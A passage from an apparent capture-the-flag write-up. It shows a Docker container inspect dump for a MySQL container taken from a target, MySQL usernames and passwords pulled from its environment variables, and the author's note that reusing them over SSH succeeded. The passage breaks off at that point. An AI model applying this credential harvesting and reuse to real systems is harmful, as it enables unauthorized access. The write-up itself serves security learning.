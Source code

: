 t/app/scripts/init.d","Type":"bind"},{"Destination":"/var/lib/mysql","Driver":"local","Mode":"rw","Name":"app_vol_mysql","Propagation":"","RW":true,"Source":"/var/lib/docker/volumes/app_vol_mysql/_data","Type":"volume"}],"Name":"/mysql","NetworkSettings":{"Bridge":"","EndpointID":"","Gateway":"","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"HairpinMode":false,"IPAddress":"","IPPrefixLen":0,"IPv6Gateway":"","LinkLocalIPv6Address":"","LinkLocalIPv6PrefixLen":0,"MacAddress":"","Networks":{"app_nw":{"Aliases":["274eca4459e3","mysql"],"DriverOpts":null,"EndpointID":"92ad34d6f3cf2a98e9746a04eecaefbb02936e981f9dbba8e54a67259d432f0f","Gateway":"172.18.0.1","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"IPAMConfig":{"IPv4Address":"172.18.0.100"},"IPAddress":"172.18.0.100","IPPrefixLen":16,"IPv6Gateway":"","Links":null,"MacAddress":"02:42:ac:12:00:64","NetworkID":"863e8188910c9fe9fd2bda1bf7d5f99ae1960bb20f30cd6b6ee296621e30b12f"}},"Ports":{"3306/tcp":null,"33060/tcp":null},"SandboxID":"6c6dfdc10b2a57012301cf75ca8c3033c76b69dab9f9c0d3797d8abe74d9cbfe","SandboxKey":"/var/run/docker/netns/6c6dfdc10b2a","SecondaryIPAddresses":null,"SecondaryIPv6Addresses":null},"Path":"docker-entrypoint.sh","Platform":"linux","ProcessLabel":"","ResolvConfPath":"/var/lib/docker/containers/274eca4459e3a1d2f4b310cbe564e00fe6c62736c28ea1fe99b8c2ad5ed2f9b9/resolv.conf","RestartCount":1,"State":{"Dead":false,"Error":"","ExitCode":0,"FinishedAt":"2021-08-18T21:51:51.405234669Z","Health":{"FailingStreak":0,"Log":[{"End":"2021-08-19T02:27:35.210359873+02:00","ExitCode":0,"Output":"mysqladmin: [Warning] Using a password on the command line interface can be insecure.\nmysqld is alive\n","Start":"2021-08-19T02:27:35.113642753+02:00"},{"End":"2021-08-19T02:27:40.284708612+02:00","ExitCode":0,"Output":"mysqladmin: [Warning] Using a password on the command line interface can be insecure.\nmysqld is alive\n","Start":"2021-08-19T02:27:40.213039501+02:00"},{"End":"2021-08-19T02:27:45.368978063+02:00","ExitCode":0,"Output":"mysqladmin: [Warning] Using a password on the command line interface can be insecure.\nmysqld is alive\n","Start":"2021-08-19T02:27:45.287533139+02:00"},{"End":"2021-08-19T02:27:50.465612205+02:00","ExitCode":0,"Output":"mysqladmin: [Warning] Using a password on the command line interface can be insecure.\nmysqld is alive\n","Start":"2021-08-19T02:27:50.37152404+02:00"},{"End":"2021-08-19T02:27:55.552044542+02:00","ExitCode":0,"Output":"mysqladmin: [Warning] Using a password on the command line interface can be insecure.\nmysqld is alive\n","Start":"2021-08-19T02:27:55.467722261+02:00"}],"Status":"healthy"},"OOMKilled":false,"Paused":false,"Pid":41985,"Restarting":false,"Running":true,"StartedAt":"2021-08-18T21:53:35.5209803Z","Status":"running"}},"status":200}
    

I’ll copy that back to my VM and store it in a file, `checkdb` so that I can use `jq` to look at it with `cat checkdb | jq . | less`. The data was all the Docker information about the MySQL container. The `Env` section had the MySQL connection info, including username and password:
    
    
          "Env": [
            "MYSQL_DATABASE=db",
            "MYSQL_USER=drew",
            "MYSQL_PASSWORD=drew",
            "MYSQL_ROOT_PASSWORD=XeoNu86JTznxMCQuGHrGutF3Csq5",
            "SERVICE_TAGS=dev",
            "SERVICE_NAME=mysql",
            "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
            "GOSU_VERSION=1.12",
            "MYSQL_MAJOR=8.0",
            "MYSQL_VERSION=8.0.25-1debian10"
          ],
    

### SSH

Before going to check the DB container, I tried the username and creds over
SSH, and it worked:
